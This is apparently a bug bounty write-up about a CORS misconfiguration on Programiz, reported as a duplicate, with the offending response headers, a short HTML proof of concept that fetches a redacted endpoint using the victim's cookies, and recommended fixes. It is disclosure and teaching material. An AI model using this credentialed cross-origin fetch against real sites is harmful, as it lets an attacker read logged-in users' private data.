 # 🛡️ CORS Misconfiguration – Programiz (Duplicate Report)

---

## 👋 Hello Hackers!!!

This was one of my first bug bounty reports — a **CORS misconfiguration** I found on [Programiz](https://www.programiz.com). The bug was eventually marked as a **duplicate**, but I still learned a ton, and wanted to document the process here.

---

## 🐞 The Vulnerability

So here’s what happened:

The API was responding with:
- `Access-Control-Allow-Origin: https://evil.com`
- `Access-Control-Allow-Credentials: true`


That combo is **straight-up dangerous**. It basically allows any attacker-controlled domain (like `evil.com`) to interact with the authenticated API **using the victim's cookies**.

---

## ⚠️ What It Could Do

If a user is logged into Programiz and visits a malicious site, that site could:

- Send requests to the Programiz API
- Steal sensitive user data
- Possibly escalate if chained with other issues

---

## 🔬 PoC I Used

I wrote a basic HTML PoC to test this vulnerability. Here's the snippet:

```html
<!DOCTYPE html>
<html>
<head><title>Improper CORS Test</title></head>
<body>
  <h2>Improper CORS Vulnerability Test</h2>
  <button id="testBtn">Test Fetch with Credentials</button>
  <pre id="result" style="white-space: pre-wrap; background: #eee; padding: 10px; margin-top: 10px;"></pre>

  <script>
    document.getElementById('testBtn').onclick = function () {
      fetch('https://<vuln-pointd>', {
        method: 'GET',
        credentials: 'include'
      })
      .then(response => {
        if (!response.ok) throw new Error('HTTP error ' + response.status);
        return response.json();
      })
      .then(data => {
        document.getElementById('result').textContent = JSON.stringify(data, null, 2);
      })
      .catch(error => {
        document.getElementById('result').textContent = 'Error: ' + error.message;
      });
    };
  </script>
</body>
</html>
```
## 🌐 CORS Misconfiguration Response
![6ce75f41-e6b2-4330-ab5b-8f53a5106acf](https://github.com/user-attachments/assets/655f67eb-34f7-441d-8e39-5c32a527fe2d)

## ✅ Successful Data Leak
![f5be6e5e-2fcf-4128-a6c5-af44f9e95a0d](https://github.com/user-attachments/assets/d2a37d67-e196-4e6c-b742-93e575ca17dc)

## 🛠️ Recommended Fix
- Never `allow Access-Control-Allow-Origin` to accept untrusted origins.
- Don't set `Access-Control-Allow-Credentials: true` unless it’s truly required.
- Use a strict allowlist of trusted domains.

## 🧠 What I Learned
Even though it was a duplicate, I:

- Understood real-world CORS misconfig better
- Practiced building a clean PoC
- Got familiar with proper reporting

You don’t need every bug to be accepted — **learning from them is still a win**.

**Signing off ✌️**

**[ROHAN S](https://www.linkedin.com/in/rohanscr7123/)** 

(**Aspiring Security Engineer**)
